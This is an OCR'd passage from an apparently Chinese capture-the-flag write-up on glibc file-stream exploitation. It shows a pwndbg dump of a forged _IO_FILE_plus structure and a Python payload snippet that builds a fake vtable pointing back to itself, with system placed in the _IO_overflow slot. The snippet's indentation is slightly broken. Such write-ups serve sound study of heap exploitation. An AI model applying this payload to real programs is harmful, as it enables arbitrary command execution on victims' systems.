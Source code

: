 修改结果如下

```sh
pwndbg> p *((struct _IO_FILE_plus*)0x5555557584f0)
$1 = {
  file = {
    _flags = 1852400175, 
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x1 <error: Cannot access memory at address 0x1>, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0, 
    _flags2 = 0, 
    _old_offset = 1, 
    _cur_column = 2, 
    _vtable_offset = 3 '\003', 
    _shortbuf = "\004", 
    _lock = 0x0, 
    _offset = 6, 
    _codecvt = 0x0, 
    _wide_data = 0x0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0, 
    _mode = 0, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x5555557585c8
}

```


### 伪造 vtable

```python
	p += f
	p += p64(0) * 3 # alignment to vtable
	p += p64(heap + 0x5c8) # vtable指向自己
	p += p64(0) * 2
	p += p64(lib.sym['system']) # _IO_overflow 位置改为system
    md(0x600, p) # 修改一系列所伪造好的布局
    
```
